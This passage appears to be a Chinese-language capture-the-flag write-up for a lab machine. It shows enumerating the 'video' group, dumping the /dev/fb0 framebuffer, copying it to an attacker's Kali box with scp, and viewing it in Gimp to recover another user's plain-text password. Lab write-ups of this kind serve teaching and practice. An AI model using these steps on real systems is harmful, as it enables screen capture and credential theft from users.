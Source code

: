 该`video`组中的用户可以访问视频捕获设备，如[帧缓冲区](https://en.wikipedia.org/wiki/Linux_framebuffer)。所以我列举了`video`的组信息。

```
**$ find / -group video 2>/dev/null**
/dev/fb0
/dev/dri/card0
/dev/dri/renderD128
/dev/dri/controlD64
```

framebuffer 设备很有趣，我把它放到了一个文件中，并转移到了我的 Kali 中。

```
**# Saving it to a file**
$ file /dev/fb0
/dev/fb0: character special (29/0)
$ cat /dev/fb0 > fb0.data**# Moving it to Kali**
# scp moshe@10.10.10.73:/home/moshe/fb0.data .
moshe@10.10.10.73's password: 
fb0.data                                                                                                                                  100% 4065KB   4.5MB/s   00:00
```

下载完成后，我使用 Gimp 之类的图像浏览器打开`fb0.data`文件以获取`yossi : MoshePlzStopHackingMe!`的密码。

```
**# Installing Gimp to your Kali**
apt-get install gimp
apt-get install liblcms2-2 (If you get a LiblCMS mismatch error)
```
